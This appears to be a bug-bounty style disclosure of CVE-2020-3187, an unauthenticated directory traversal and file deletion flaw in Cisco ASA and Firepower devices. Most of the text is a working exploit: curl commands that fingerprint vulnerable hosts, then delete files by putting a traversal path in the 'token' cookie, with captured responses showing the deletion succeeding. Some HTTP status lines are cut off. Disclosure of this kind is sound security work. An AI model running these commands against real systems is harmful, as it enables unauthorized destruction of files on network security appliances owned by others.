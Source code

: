 
# Unauthenticated Arbitrary File Deletion (CVE-2020-3187)

## Summary

A vulnerability in the interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files.

## Steps To Reproduce:
 

 1. Identifying vulnerable host by send request to `/+CSCOE+/session_password.html`
```
curl -skiL https://$DOMAIN/+CSCOE+/session_password.html
```
2. You will see this output

```
TP/1.1 200 OK
Content-Type: text/plain
Content-Length: 0
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Sat, 05 Jun 2021 03:06:18 GMT
X-Frame-Options: SAMEORIGIN
webvpn: 


```

If the **webvpn** key is present in the response header, then it's vulnerable to CVE-2020-3187. 

Let's try another thing: Perform a exploit to delete files by adding `token` in cookie header request.


 1. Check that a file is accessible.

```
curl -Ik https://$DOMAIN/+CSCOU+/login-header-icon.jpg
P/1.1 200 OK
Content-Type: image/jpg
Content-Length: 6357
Cache-Control: max-age=6000
Connection: Keep-Alive
Date: Sat, 05 Jun 2021 03:08:20 GMT
X-Frame-Options: SAMEORIGIN


```
 2.  Let's now remove the file using a Cookie header with the filename as **token.** 

``` 
curl -skiL https://$DOMAIN/+CSCOE+/session_password.html -H "Cookie: token=../+CSCOU+/login-header-icon.jpg" 

P/1.1 200 OK
Content-Type: text/plain
Content-Length: 0
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Sat, 05 Jun 2021 03:09:53 GMT
X-Frame-Options: SAMEORIGIN
webvpn: 


```

Now let's check if the file was deleted successfully:

```
curl -Ik https://$DOMAIN/+CSCOU+/login-header-icon.jpg
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Connection: Close
Date: Sat, 05 Jun 2021 03:10:37 GMT
X-Frame-Options: SAMEORIGIN


``

## Impact

An exploit could allow the attacker to view or delete arbitrary files on the system.


### Supporting Material/References
[Report 978335](https://hackerone.com/reports/978335)
[NVE](https://nvd.nist.gov/vuln/detail/CVE-2020-3187)



